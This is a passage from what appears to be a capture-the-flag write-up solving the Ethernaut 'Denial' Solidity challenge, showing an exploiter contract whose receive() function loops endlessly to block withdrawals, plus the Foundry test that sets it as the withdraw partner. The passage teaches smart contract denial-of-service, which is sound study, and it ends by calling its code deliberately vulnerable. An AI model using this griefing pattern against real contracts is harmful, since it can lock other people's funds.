 ```solidity
            sum += 1;
        }
    }

    receive() external payable {
        // This function is executed when someone will send ETH to the contract
        exploit();
    }
}
```

When the `withdraw` function in `Denial` contract will transfer `amountToSend` to the `partner` the `Exploiter.receive` function will be executed and as a consequence, the transaction will revert because of the infinite loop inside the `exploit` function.

Here's the code executed by the test

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the exploiter contract
    Exploiter exploiter = new Exploiter();

    // set the exploiter as the partner
    level.setWithdrawPartner(address(exploiter));

    // The `withdraw` function will be called automatically by the `DenialFactory` contract

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Denial.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Denial.t.sol)

## Further reading

- [Solidity Docs: Message Calls](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#message-calls)
- [SWC-134: Message call with hard-coded gas amount](https://swcregistry.io/docs/SWC-134)
- [SWC-113: DoS with Failed Call](https://swcregistry.io/docs/SWC-113)
- [SWC-104: Unchecked Call Return Value](https://swcregistry.io/docs/SWC-104)
- [SWC-126: Insufficient Gas Griefing](https://swcregistry.io/docs/SWC-126)
- [Consensys Ethereum Smart Contract Best Practices: Denial of Service](https://consensys.github.io/smart-contract-best-practices/attacks/denial-of-service/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
